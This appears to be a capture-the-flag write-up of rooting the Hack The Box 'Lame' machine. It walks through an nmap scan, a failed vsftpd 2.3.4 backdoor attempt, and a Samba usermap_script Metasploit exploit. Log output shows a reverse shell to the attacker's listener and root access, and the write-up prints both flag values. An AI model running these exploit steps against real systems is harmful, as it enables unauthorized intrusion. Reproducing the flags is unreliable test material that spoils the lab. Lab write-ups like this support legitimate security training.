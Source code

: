 Running our initial scan of the HTB Lame machine with `nmap`

```php
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

Some points of interest:
- Port 21 - `vsftpd 2.3.4`
- Port 22 - `OpenSSH 4.7.p1`
- Port 445 - `samba 3.0.20`

We attempt to connect to ports 21 and 22 with `telnet`

```php
telnet 10.129.26.62 21

>Trying 10.129.26.62...
>Connected to 10.129.26.62.
>220 (vsFTPd 2.3.4)
>530 Please login with USER and PASS.
```

```php
telnet 10.129.26.62 22

>Trying 10.129.26.62...
>Connected to 10.129.26.62.
>SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
>Protocol mismatch.
>Connection closed by foreign host.
```

These were dead ends. No logins for port 21 and nothing on port 22 that was useful.

Lets look at `vsftpd 2.3.4`, this is a known vulnerability in `metasploit`

```php
search vsftpd 2.3.4
>0  exploit/unix/ftp/vsftpd_234_backdoor

use 0
```

Set the `RHOSTS` to the lame machine IP address

```php
[*] 10.129.26.62:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.26.62:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

We see that upon running the exploit that it fails to connect, another dead end

Lets look at `samba 3.0.20`, this is another known vulnerability in `metasploit`

```php
search samba 3.0.20
>0  exploit/multi/samba/usermap_script

use 0
```

Remember to set `LHOST` to the HTB secret tunnel `IPV4` address 

```php
[*] Started reverse TCP handler on 10.10.14.209:4444 
[*] Command shell session 1 opened (10.10.14.209:4444 -> 10.129.26.62:40677) at 2025-06-01 20:15:48 -0400

whoami
root
```

We are granted remote code execution on the lame machine
We find the flags in the home and root directory by exploring the system.

User Flag: `4ea88b7e036c45437527852ae6bdf160`
Root Flag: `e14e35a85c745af457e84012bf9ecaef`

Running `netstart -tnlp` we can see way more ports are actually listening than the four we found from our scan. 
The reason our `VSFTPd` exploit failed is because port 21 was behind a firewall.

`VSFTPd` 2.3.4 backdoor command execution exploit
https://www.exploit-db.com/exploits/49757
When the backdoor is triggered it starts listening on port 6200
The exploit does listen on Lame

```php
[*] 10.129.26.62:21 - Banner: 220 (vsFTPd 2.3.4)
```

We have rooted this machine
